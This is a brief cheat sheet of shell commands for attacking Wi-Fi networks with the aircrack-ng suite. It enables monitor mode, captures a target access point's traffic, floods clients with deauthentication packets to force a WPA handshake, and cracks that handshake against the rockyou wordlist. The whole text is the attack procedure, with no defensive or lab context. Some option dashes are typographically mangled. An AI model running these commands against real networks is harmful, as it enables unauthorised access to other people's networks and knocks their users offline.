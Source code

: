 Put card in monitor mode:
---
#monitor-mode
```bash
airmon-ng start wlan0
```
```bash
ifconfig wlan0 down #
iwconfig wlan0 mode monitor
ifconfig wlan0 up
airmon-ng check
airmon-ng check kill
airodump-ng wlan0mon
```
```bash
airodump-ng -c $WIFI_CHANNEL –bssid $BSSID_MAC -w $CAP_FILE wlan0mon
```
de-auth to force handshake:
```bash
sudo aireplay-ng –deauth 0 -a $BSSID_MAC -c $CLIENT_MAC wlan0mon
```
crack the handshake with wordlist:
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt $CAP_FILE
```